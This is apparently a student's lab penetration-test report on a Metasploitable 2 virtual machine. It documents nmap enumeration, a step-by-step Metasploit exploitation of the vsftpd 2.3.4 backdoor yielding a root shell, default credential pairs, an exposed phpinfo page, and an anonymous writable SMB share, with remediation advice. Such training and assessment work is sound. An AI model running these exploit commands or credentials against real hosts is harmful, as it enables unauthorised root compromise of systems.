# DFCS Session — Homework (Day 3: VA/PT Report — Metasploitable 2 Assessment)

**Prepared by:** Muhammad Zain Nasir  
**Prepared for:** Atomcamp DFCS Bootcamp — Day 3 Assignment  
**Date of assessment:** 4–7 November 2026  
**Classification:** Lab exercise — not for external distribution

---

## 1. Executive Summary

**Total vulnerabilities identified:** 4 findings documented manually with full proof of concept (1 Critical, 2 High, 1 Medium), corroborated by an automated GVM/OpenVAS scan of the same host that returned **68 filtered results** — 11 Critical, 11 High, 40 Medium, 6 Low — out of 633 raw results before QoD filtering.
**Highest severity rating:** Critical (CVSS 9.8 manual / CVSS 10.0 GVM maximum)
**Primary impact:** An attacker anywhere on the network could take complete control of the host — including its databases — with no credentials and no user action, through an eleven-year-old unpatched FTP service. The automated scan independently confirms the host is critically exposed on at least ten other services as well.
**Engagement type:** Grey-box (full network access to a known lab target, no source code or admin credentials provided)
**Simulation type:** Reconnaissance, automated vulnerability scanning, manual CVE research, exploitation and limited post-exploitation

---

## 2. Engagement Scope and Details

- **Scope type:** Grey-box, authorised internal lab assessment
- **Target:** Metasploitable 2, `192.168.153.133`
- **Attacker machine:** Kali Linux, `192.168.153.128`
- **Network:** Isolated NAT/host-only VMware network — not reachable from any external network
- **Testing window:** 4–7 November 2026
- **Methodology:** `nmap` discovery and service enumeration → NSE scripts → Greenbone/OpenVAS "Full and fast" automated scan → manual CVE research → Metasploit exploitation
- **Access granted:** Full network reachability to the target; no credentials or source code provided
- **Exclusions:** No destructive payloads; no persistence left in place beyond the lab session; no systems outside `192.168.153.0/24` touched

This matches the handout's SCOPE note: every command was executed against Metasploitable 2 in the course laboratory, on an isolated network, with no command run against any system outside that scope.

---

## 3. Findings and Proofs of Concept

### Finding 1 — FTP Backdoor Command Execution in vsftpd 2.3.4

**SEVERITY** CRITICAL (CVSS 9.8) — `CVSS:3.1/AV:N/AC:L/PR:N/UI:N/S:U/C:H/I:H/A:H`
**AFFECTED** `192.168.153.133:21/tcp` — vsftpd 2.3.4
**CVE** CVE-2011-2523 | **CWE** CWE-78 — OS Command Injection

**DESCRIPTION** vsftpd 2.3.4, distributed between 30 June and 3 July 2011, contained a backdoor planted on the official download server. A username containing a specific trigger sequence opens a root command shell on TCP port 6200.

**PROOF OF CONCEPT**

*Step 1 — Discovery via nmap*
```
nmap -sV -p21 192.168.153.133
Result: 21/tcp open ftp vsftpd 2.3.4
```

Explanation: version detection identified the exact vulnerable build.

*Step 2 — Exploitation via Metasploit*
```
msfconsole -q
search vsftpd 2.3.4
use 0
set RHOSTS 192.168.153.133
set LHOST 192.168.153.128
exploit
```




Explanation: the first `exploit` attempt failed because LHOST (the address the target connects back to) was unset — exactly the failure mode the handout's Section 5.2 warns about. Setting `LHOST 192.168.153.128` to Kali's own reachable address let the module trigger the backdoor and open a Meterpreter session.

*Step 3 — Confirmation of access*
```
meterpreter > getuid
Server username: root
meterpreter > shell
id
uid=0(root) gid=0(root)
meterpreter > sysinfo
Computer: metasploitable.localdomain
OS: Ubuntu 8.04 (Linux 2.6.24-16-server)
```




Explanation: `getuid` and `id` both confirm full root access (`uid=0`). `sysinfo` confirms the session is on the actual target (`metasploitable.localdomain`), not the attacker's own Kali machine.

**IMPACT** Unauthenticated remote code execution as root, on a host that also runs MySQL and PostgreSQL — a full compromise of every database on the box, demonstrated live rather than assumed.

**REMEDIATION**
1. Upgrade vsftpd to a current, vendor-signed release.
2. Disable anonymous and unnecessary legacy FTP services entirely.
3. If FTP is business-critical, restrict port 21 to named source addresses.
4. Verify package signatures against the vendor before deployment.

**REFERENCES**
- https://nvd.nist.gov/vuln/detail/CVE-2011-2523
- https://www.rapid7.com/db/modules/exploit/unix/ftp/vsftpd_234_backdoor/
- http://scarybeastsecurity.blogspot.com/2011/07/alert-vsftpd-download-backdoored.html

---

### Finding 2 — Weak / Default Credentials on Multiple Services

**SEVERITY** HIGH (CVSS 8.1) — `CVSS:3.1/AV:N/AC:H/PR:N/UI:N/S:U/C:H/I:H/A:H`
**AFFECTED** FTP (21/tcp, 2121/tcp), SSH (22/tcp), PostgreSQL (5432/tcp) | **CWE** CWE-1392 — Use of Default Credentials

**DESCRIPTION** The service account `msfadmin:msfadmin` — the documented default credential for this image — is valid and was confirmed at the Metasploitable 2 login banner itself (`Login with msfadmin/msfadmin to get started`), which is itself an admission of the weakness. The GVM automated scan independently corroborated this (Section 4) by brute-forcing the same `msfadmin:msfadmin` pair, plus `postgres:postgres`, `service:service` and `user:user`, directly over FTP.

**PROOF OF CONCEPT**
```
Metasploitable login banner states explicitly:
"Login with msfadmin/msfadmin to get started"
```


Explanation: a credential pair published directly on the login screen (and in the product's public documentation) is the first pair any attacker tries, requiring no guessing or brute-forcing.

**IMPACT** Authenticated access to the host without requiring any software vulnerability, including local privilege escalation via sudo once logged in.

**REMEDIATION**
1. Change all default credentials before the system is reachable on any network.
2. Enforce a minimum password length of 10 characters with complexity.
3. Deploy a banned-password list (e.g. entries from `rockyou.txt`).
4. Disable unused accounts; audit for shared credentials.

**REFERENCES**
- https://cwe.mitre.org/data/definitions/1392.html

---

### Finding 3 — Exposed PHP Information Page

**SEVERITY** MEDIUM (CVSS 5.3) — `CVSS:3.1/AV:N/AC:L/PR:N/UI:N/S:U/C:L/I:N/A:N`
**AFFECTED** `192.168.153.133:80/tcp` — Apache httpd 2.2.8 | **CWE** CWE-200 — Exposure of Sensitive Information

**DESCRIPTION** The web root serves a publicly reachable `phpinfo.php` page with no authentication, revealing the full PHP configuration, loaded modules and server file paths. GVM independently flagged the same weakness on port 80/tcp as **"phpinfo() Output Reporting (HTTP)"** (CVSS 5.3; CVE-2008-0149, CVE-2023-49282, CVE-2023-49283, CVE-2024-10486), confirming the manual finding exactly, including the CVSS score.

**PROOF OF CONCEPT**
```
nmap -p80,8180 --script http-enum.nse 192.168.153.133
/phpinfo.php: Possible information file
```


**IMPACT** Hands an attacker detailed reconnaissance of the server stack with zero exploitation effort.

**REMEDIATION** Remove or restrict any `phpinfo()` file before a production deployment.

**REFERENCES**
- https://cwe.mitre.org/data/definitions/200.html

---

### Finding 4 — Anonymous SMB Null Session with Writable Share

**SEVERITY** HIGH (estimated 7.5) — `CVSS:3.1/AV:N/AC:L/PR:N/UI:N/S:U/C:H/I:L/A:N`
**AFFECTED** `192.168.153.133:139,445/tcp` — Samba smbd 3.0.20-Debian | **CWE** CWE-287 — Improper Authentication

**DESCRIPTION** Samba accepts a null (unauthenticated) session and returns the full share list, including `tmp`, which reports Anonymous access: READ/WRITE.

**PROOF OF CONCEPT**
```
nmap -p139,445 --script smb-enum-shares 192.168.153.133
\\192.168.153.133\tmp: Anonymous access: READ/WRITE
```


**IMPACT** Any device on the network can read, plant or tamper with files with zero credentials.

**REMEDIATION** Set `restrict anonymous = 2` in `smb.conf`; remove anonymous write access from all shares.

**REFERENCES**
- https://cwe.mitre.org/data/definitions/287.html

---

## 4. GVM (OpenVAS) Automated Scan and Comparison

A Greenbone Vulnerability Management (GVM/OpenVAS) scan was configured and run against the same target (`192.168.153.133`) using the **"Full and fast"** scan configuration, to compare an automated platform's results against the manual findings above.

**Setup evidence:**





